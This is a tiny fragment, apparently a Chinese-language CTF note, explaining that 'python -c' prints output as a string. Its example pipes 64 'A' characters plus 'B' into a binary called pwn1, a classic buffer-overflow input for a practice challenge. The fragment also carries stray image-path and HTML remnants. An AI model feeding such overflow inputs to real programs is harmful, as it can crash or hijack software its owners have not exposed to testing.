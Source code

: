 <head><meta charset="UTF-8"></head>

##
python -c 在终端里结果以字符串形式输出 (python -c "print 'A'*64+'B'" | ./pwn1)
